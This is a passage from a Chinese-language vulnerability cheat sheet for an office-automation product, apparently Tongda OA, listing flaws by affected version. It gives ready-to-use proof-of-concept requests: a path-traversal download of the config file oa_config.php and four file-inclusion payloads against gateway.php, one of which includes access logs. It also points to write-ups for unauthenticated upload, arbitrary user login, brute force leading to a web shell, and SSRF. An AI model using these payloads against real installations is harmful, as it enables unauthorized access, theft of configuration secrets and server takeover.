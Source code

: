```

（16）/general/mytable/intel_view/video_file.php 文件下载
POC:
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php  

（17）【<=11.3】/ispirit/interface/gateway.php 文件包含
- 不同版本位置不同：
<11.3、2013:ispirit/interface/gateway.php
2017：/mac/gateway.php
- POC:
POST /xxx/gateway.php HTTP/1.1
# poc1
json={"url":"/general/../../attach/im/xxx/xxx.php"} #POC1
# poc2
json={这里面只要不是url的变量赋值或者为空就行}&url=/general/.<>./.<>./attach/im/xxx/xxx.php 
# poc 3
Cookie：json%00aa={"url":"xxx"}
# poc 4
TD_HTML_EDITOR_json={"url":"/general/../../nginx/logs/oa.access.log"}

（18）【<=11.5】general/file_folder/swfupload.php 未授权文件上传
REF：https://xz.aliyun.com/t/7446#toc-3

（19）【<=11.3】inc/second_tabs.php 本地文件包含伪造menu_top.php文件
REF：https://www.secpulse.com/archives/139046.html

（20）【<=11.3】mobile/reportshop/report/getdata.php 上传
REF：https://www.secpulse.com/archives/139046.html
```

- 权限绕过

```
（1）【<=11.7】/mobile/auth_mobi.php 在线任意用户登录
REF：https://www.o2oxy.cn/3158.html

（2）【<=11.5】【2017】/general/logincheck_code.php 任意登陆
REF：https://l3yx.github.io/2020/04/27/%E9%80%9A%E8%BE%BEOA-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E/#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90

（3）【<=11.10】login.php/logincheck.php 用户名和密码爆破+netdisk上传getshell
REF：https://www.freebuf.com/articles/network/340612.html
```

- 其他

```
（1）【<=11.7】/pda/workflow/img_download.php SSRF
REF：https://mp.weixin.qq.com/s/6qxSzypbmtvG6HLSHZ-vZg
```
